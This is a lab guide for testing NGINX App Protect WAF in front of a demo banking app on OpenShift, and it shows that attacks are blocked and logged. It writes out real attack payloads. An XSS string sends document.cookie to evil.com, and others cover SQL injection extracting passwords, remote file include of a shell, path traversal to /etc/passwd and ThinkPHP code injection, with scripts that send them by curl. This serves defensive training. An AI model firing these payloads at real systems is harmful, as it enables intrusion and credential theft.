 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Open the Arcadia Financial webpage in your browser.

[source,sh,role=execute]
----
echo "http://$nginx_ingress"
----

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,texinfo,subs="attributes"]
----
<html>
  <head><title>Request Rejected</title></head>
  <body>
    The requested URL was rejected. Please consult with your administrator.<br><br>
    Your support ID is: 2246109708976899297<br><br>
    <a href='javascript:history.back();'>[Go Back]</a>
  </body>
</html>
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:image19.png[image]


Congratulations on securing your application!


=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

Events are logged in the local syslog pod.

In the terminal window, copy the below text and press enter.

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----


Next, let's create an attack and then examine the logs.


We'll use this bash script to create the attack and then display the log.

[source,sh,role=execute]
----
cat << 'EOF' > check_waf.sh
#!/bin/bash

echo "Sending a malicious request to trigger App Protect..."
response=$(curl -sk "http://$nginx_ingress?item='><script>document.location='http://evil.com/steal'+document.cookie</script>")

echo "Full WAF response:"
echo "$response"

support_id=$(echo "$response" | grep -oP 'support ID is: \K[0-9]+')
echo "Captured Support ID: $support_id"

syslog_pod=$(oc get pods --no-headers | grep '^syslog-' | cut -d' ' -f1)
echo "Querying syslog pod $syslog_pod for WAF log entry..."

oc exec -it pod/$syslog_pod -- cat /var/log/messages | \
  grep "$support_id" | \
  sed -n 's/.*json_log="\({.*}\)".*/\1/p' | \
  sed 's/""/"/g' | jq .
EOF
----

Make the script executable and then run it.

[source,sh,role=execute]
----
chmod +x check_waf.sh && ./check_waf.sh
----

After running the `check_waf.sh` script, look at the parsed JSON and verify the following:

- `"id"`: This should match the support ID you received in the curl response.
- `"requestStatus": "blocked"`: Confirms the request was blocked by App Protect.
- `"attackType"`: Look for entries like `"Cross Site Scripting (XSS)"`, showing the attack was correctly classified.
- `"violation.name"`: Confirm detection of signatures such as `"VIOL_ATTACK_SIGNATURE"` or `"VIOL_PARAMETER_VALUE_METACHAR"`.
- `"signature.name"`: Example: `"XSS script tag (Parameter)"` shows the specific rule triggered.
- `"enforcementState.isBlocked": true`: Confirms blocking action was enforced.
- `"observedEntity.value"`: This may show a base64-encoded version of the payload that triggered the violation.


Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in OpenShift and how to use the NGINX App
Protect WAF to protect your applications from attacks.

## Optional Attacks

*Here are some optional attacks you can try*

== Optional Attack Payloads to Trigger App Protect

== Optional Attack Payloads to Trigger App Protect

== Optional Attack Payloads to Trigger App Protect

Use these by appending them to the application URL (e.g., `http://$nginx_ingress/`):

*SQL Injection* +
[source,sh,role=execute]
----
?hfsagrs=-1+UNION+SELECT+user,password+FROM+users--
----

*Remote File Include (RFI)* +
[source,sh,role=execute]
----
?hfsagrs=php://filter/resource=http://example.com/shell.txt
----

*Command Execution* +
[source,sh,role=execute]
----
?hfsagrs=/proc/self/environ
----

*HTTP Parser Attack* +
[source,sh,role=execute]
----
?XDEBUG_SESSION_START=phpstorm
----

*Path Traversal (Predictable Resource Location)* +
[source,sh,role=execute]
----
/lua/login.lua?referer=google.com/&hfsagrs=../../../../../../../../etc/passwd
----

*Cross-Site Scripting (XSS)* +
[source,sh,role=execute]
----
/lua/login.lua?referer=google.com/&hfsagrs="onmouseover=alert('XSS')"
----

*Information Leakage Probe* +
[source,sh,role=execute]
----
/lua/login.lua?referer=google.com/&hfsagrs=efw
----

*Forced Browsing (Parser Attack)* +
[source,sh,role=execute]
----
/dana-na/auth/url_default/welcome.cgi
----

*ThinkPHP Code Injection* +
[source,sh,role=execute]
----
/index.php?s=/Index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP
----

*Header-based XSS (via Cookie)* +
[source,sh,role=execute]
----
Cookie: hfsagrs='"><script>alert("XSS")</script>'
----




This bash script has a few more.

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,sh,role=execute]
----
#!/bin/bash
echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"

# Send a request with multiple decoding
curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with Apache whitespace
curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with IIS backslashes
curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"

# Send a request with carriage return escaping
curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload
curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"
----